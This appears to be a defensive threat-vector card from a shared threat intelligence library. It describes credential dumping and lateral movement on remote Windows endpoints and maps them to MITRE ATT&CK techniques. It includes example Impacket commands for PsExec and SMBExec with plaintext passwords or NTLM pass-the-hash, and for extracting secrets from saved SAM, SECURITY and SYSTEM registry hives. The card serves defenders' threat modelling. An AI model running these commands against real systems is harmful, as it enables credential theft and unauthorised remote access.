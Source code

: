 

# ☣️ Credential manipulation on remote Windows endpoint

🔥 **Criticality:Medium** ❗ : A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.


🗡️ **ATT&CK Techniques** [T1098.001 : Account Manipulation: Additional Cloud Credentials](https://attack.mitre.org/techniques/T1098/001 'Adversaries may add adversary-controlled credentials to a cloud account to maintain persistent access to victim accounts and instances within the envi'), [T1003 : OS Credential Dumping](https://attack.mitre.org/techniques/T1003 'Adversaries may attempt to dump credentials to obtain account login and credential material, normally in the form of a hash or a clear text password C')



---

`🔑 UUID : cfc6369a-e3df-4827-bb0d-969342f1558c` **|** `🏷️ Version : 6` **|** `🗓️ Creation Date : 2023-01-27` **|** `🗓️ Last Modification : 2023-02-07` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.0`


## 👁️ Description

> Threat actors can perform credential manipulation on a remote Windows
> endpoint with a variety of tools like: Mimikatz, WMIExec, WinRM-based,
> PsExec, SMBExec or PowerShell or others to extract credentials from
> a credential storage point on the endpoint, as example from the endpoint's
> memory. This can be done by an attacker who already has gained access to
> and control of one endpoint.
> 
> Requirements:
> 
> - permissions to access the remote machine
> - permission/ability to run credential dumping tools
> - or an ability to start a service remotely
> 
> Impacket PsExec example with username and password:
> 
> python3 psexec.py <domain>/<user>:<pass>@<target_host>
> 
> or an option with NTLM hashes
> 
> python3 psexec.py -hashes <lmhash>:<ntlmhash> <domain>/<user>@<target_host>
> 
> Example for Impacket SMBExec with plaintext credentials and NTLM hashes:
> 
> python3 smbexec.py "<domain>/<user>:<password>"@<target_host>
> 
> python3 smbexec.py -hashes <lmhash>:<ntlmhash> <domain>/<user>@<target_host>
> 
> Impacket suite contains a python script and can read the content of the
> registry keys and decrypt the LSA Secrets passwords.
> 
> Example:
> 
> impacket-secretdump -sam /root/Desktop/sam.save -security /root/Desktop/security.save -system /root/Desktop/system.save LOCAL
> 
